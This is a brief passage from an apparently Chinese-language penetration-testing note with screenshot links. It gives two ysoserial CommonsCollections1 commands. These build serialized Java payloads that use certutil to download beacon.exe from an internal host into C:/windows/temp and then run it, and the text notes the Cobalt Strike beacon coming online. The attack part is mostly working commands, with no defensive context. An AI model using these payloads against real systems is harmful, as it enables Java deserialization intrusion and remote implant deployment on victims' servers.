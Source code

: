 <img src=".\图片\Snipaste_2023-10-25_22-18-14.png" alt="Snipaste_2023-10-25_22-18-14" style="zoom:80%;" />



此外还可以用工具

```bash
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 "certutil -urlcache -split -f http://192.168.22.152/beacon.exe C:/windows/temp/cs.exe" > ser.bin

java -jar ysoserial-0.0.5-all.jar CommonsCollections1 "C:/windows/temp/cs.exe" > ser.bin
```

cs 上线：

<img src=".\图片\Snipaste_2023-10-25_22-33-20.png" alt="Snipaste_2023-10-25_22-33-20" style="zoom:67%;" />
